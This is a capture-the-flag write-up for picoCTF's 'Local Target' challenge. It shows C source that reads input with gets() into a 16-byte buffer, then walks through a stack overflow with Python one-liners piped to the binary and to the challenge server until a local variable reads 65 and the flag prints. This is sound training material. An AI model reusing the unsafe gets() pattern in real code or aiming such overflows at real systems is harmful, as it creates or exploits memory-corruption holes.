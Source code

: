 # Local Target

- [Challenge information](Local_Target.md#challenge-information)
- [Solution](Local_Target.md#solution)

## Challenge information
```
Points: 100
Tags: picoGym Exclusive, Binary Expoitation, gets
Author: OVERTHEWIRE.ORG / LT 'SYREAL' JONES

Description:

Smash the stack
Can you overflow the buffer and modify the other local variable? 

The program is available here. You can view source here. And connect with it using:
`nc saturn.picoctf.net 56895`
 
Hints:
1. Do anything you can to change num.
2. When you change num, view the value as hexadecimal.
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

Our mission is to change the local variable `num` with a value of 64 to a value of 65.
This can easily be done since the `gets` function doesn't have any length restrictions.
So if we input more than the memory reserved for the input, the 16-byte variable `input`,  
`num` will be overwritten.

### Create an "exploit" and verify it locally

The `gets` function reads the input as text. What character should we overwrite with?
The ASCII value of deciamal 65 corresponds to 'A'.
```
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print(chr(65))"
A
```

We probably could getway with inputting say 64 A:s but lets find out specifically how many A:s  
are needed to overwrite `num`. This usually isn't as easy as 16+1 A:s due to the compilers  
stack alignment etc.

Lets start with say 22 A:s and increase the number of A:s step by step until `num` is changed.
```
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*22)" | ./local-target
Enter a string: 
num is 64
Bye!
                                                                                                                                                                                                
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*23)" | ./local-target
Enter a string: 
num is 64
Bye!
                                                                                                                                                                                                
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*24)" | ./local-target
Enter a string: 
num is 0
Bye!
                                                                                                                                                                                                
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | ./local-target
Enter a string: 
num is 65
You win!
Cannot open file.
```

So 25 A:s are needed to overwrite `num`.
The error message is due to the fact that there is no 'flag.txt' in the current directory.

### Connect to the server and get the flag

Finally, lets send our tiny exploit to the server
```
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 56895  
Enter a string: 
num is 65
You win!
picoCTF{<REDACTED>}

```
